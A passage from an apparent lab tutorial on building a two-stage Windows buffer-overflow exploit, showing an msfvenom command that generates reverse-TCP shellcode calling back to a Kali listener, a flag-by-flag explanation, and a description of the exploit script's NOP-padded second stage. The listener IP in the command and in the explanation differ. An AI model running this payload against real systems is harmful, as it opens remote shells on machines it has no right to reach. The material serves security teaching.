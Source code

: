 		<img src="Images/I35.png" width=800>

2. Generate the second stage reverse shell code using ```msfvenom``` program, and create a exploit script as shown in [exploit6.py](./SourceCode/exploit6.py) 

	```
	$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -a x86 --platform windows -b '\x00\x0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP 10.0.2.7
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080
    	* `EXITFUNC=thread`: Create a thread to run the payload
  	* `-f`: The output format 
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name
    	* `SHELL`: Shell Variable name
	* `-a x86`: Specify the target architecture as `x86`
	* `--platform windows`: Specify the target platform as Windows
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values 
      	* `\x00\x0a\x0d`: Null char, carriage return, and newline. 
3. The [exploit6.py](./SourceCode/exploit6.py) script first sends the Stage-1 exploit as is done in the [exploit5.py](./SourceCode/exploit5.py) script, then it waits a few seconds and send the second stage of the exploit which will attempt to reach out to our *Kali Linux* machine on port 8080. To add some resiliency to inaccurate jumps we pad the buffer the `recv(...)` call writes to which is 1024 bytes with `\x90` the NOP instruction by adding them to the start of the second stage. 
